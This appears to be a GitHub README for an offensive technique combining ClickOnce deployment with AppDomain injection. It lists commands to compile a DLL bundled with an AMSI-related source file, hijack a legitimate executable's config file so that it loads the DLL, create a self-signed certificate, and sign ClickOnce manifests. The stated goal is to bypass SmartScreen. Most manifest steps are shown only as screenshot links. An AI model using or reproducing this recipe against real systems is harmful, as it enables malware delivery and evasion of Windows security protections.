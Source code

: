 # ClickOnce + AppDomain Injection 
ClickOnce + AppDomain Injection

Based on https://github.com/Mr-Un1k0d3r/.NetConfigLoader

csc.exe /t:library /keyfile:key.snk /out:uevmonitor.dll uevmonitor.cs amsi.cs

[System.Reflection.AssemblyName]::GetAssemblyName("uevmonitor.dll").FullName            

uevmonitor, Version=0.0.0.0, Culture=neutral, PublicKeyToken=1bb626af4620f3e6

Add PublicKeyToken to Filehistory.exe.config

makecert -r -pe -n "CN=test" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv cert.pvk CA.cer

pvk2pfx -pvk cert.pvk -spc CA.cer -pfx CA.pfx -po "test"

MageUI.exe

Create application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/38a9d058-2d7e-4dca-a0cd-92979b5f346b)

Sign and save the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/83b0ddac-ff62-496f-a9a8-6b71163636d7)

Create deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/9d76f5ca-4765-4e08-b9f3-2863b7b36035)

Add the application manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/75430ed5-4618-43c9-98a2-a5dce1308d9f)

Sign and save the deployment manifest:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/faeaf363-9553-4104-ad9e-0378fb9bf9c7)

Launch the ClickOnce application to bypass Smart Screen:

![image](https://github.com/weaselsec/Click-Once-App-Domain/assets/147257425/3b903b58-2314-4e0f-9c3f-5a1a5d9aaee9)












